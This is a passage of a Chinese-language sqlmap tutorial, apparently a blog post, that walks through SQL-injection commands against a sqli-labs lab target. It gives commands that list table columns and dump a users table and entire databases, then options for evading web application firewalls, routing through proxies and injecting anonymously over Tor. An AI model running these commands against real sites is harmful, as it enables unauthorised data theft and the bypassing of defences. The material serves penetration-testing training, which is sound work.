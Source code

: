 

### 爆出指定数据库指定表中的所有的列



```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns
```




![](https://img-blog.csdnimg.cn/20181201215821778.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 爆出指定数据库指定表指定列下的数据



```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
```




![](https://img-blog.csdnimg.cn/20181201220030642.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 爆出该网站数据库中的所有数据



```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据      
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据      
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据
```




Sqlmap的高级用法

-----------



Sqlmap在默认情况下除了适用CHAR()函数防止出现单引号，没有对注入的数据进行修改。我们可以使用--tamper参数对数据进行修改来绕过WAF等设备，其中的大部分脚本主要用正则模块替换攻击载荷字符编码的方式尝试绕过WAF的检测规则。Sqlmap目前官方提供53个绕过脚本。



### 探测指定URL是否存在WAF，并且绕过



```
--identify-waf   检测是否有WAF       
#使用参数进行绕过      
--random-agent    使用任意HTTP头进行绕过，尤其是在WAF配置不当的时候      
--time-sec=3      使用长的延时来避免触发WAF的机制，这方式比较耗时      
--hpp             使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上      
--proxy=100.100.100.100:8080 --proxy-cred=211:985      使用代理进行绕过      
--ignore-proxy    禁止使用系统的代理，直接连接进行注入      
--flush-session   清空会话，重构注入      1
--hex 或者 --no-cast     进行字符码转换      1
--mobile          对移动端的服务器进行注入      1
--tor             匿名注入
```
